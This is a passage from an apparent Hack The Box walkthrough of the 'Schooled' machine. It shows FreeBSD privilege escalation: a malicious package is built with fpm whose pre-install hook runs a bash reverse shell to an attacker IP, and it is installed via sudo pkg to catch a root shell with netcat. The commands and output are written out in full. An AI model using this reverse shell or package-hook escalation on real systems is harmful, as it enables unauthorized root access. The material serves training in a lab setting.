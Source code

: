 ```text
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0:   0%
pkg: File //tmp/tmp.jpowA3ywDS/x.sh not specified in the manifest
Extracting x-1.0: 100%
```

Above we can see our test worked and the id command ran as root:

```text
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
```

Back to Kali and let's create a new package, this time with a reverse shell:

```text
┌──(root💀kali)-[~/htb/schooled/fpm]
└─# TF=$(mktemp -d)
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.227/4444 0>&1'" > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
```

SCP this one over to the box:

```text
┌──(root💀kali)-[~/htb/schooled/fpm]
└─# scp x-1.0.txz jamie@10.10.10.234:/tmp/                                               
Password for jamie@Schooled:
x-1.0.txz             100%  520    26.1KB/s   00:00
```

Start a netcat listener on Kali, then switch back across to schooled and install our package:

```text
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update /tmp/x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
```

## Root Flag

We see the install hangs at the point our shell is executed. Switch to our waiting netcat listener to see we have a root shell:

```text
┌──(root💀kali)-[~/htb/schooled/fpm]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.227] from (UNKNOWN) [10.10.10.234] 38117
[root@Schooled /usr/home/jamie]# id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
```
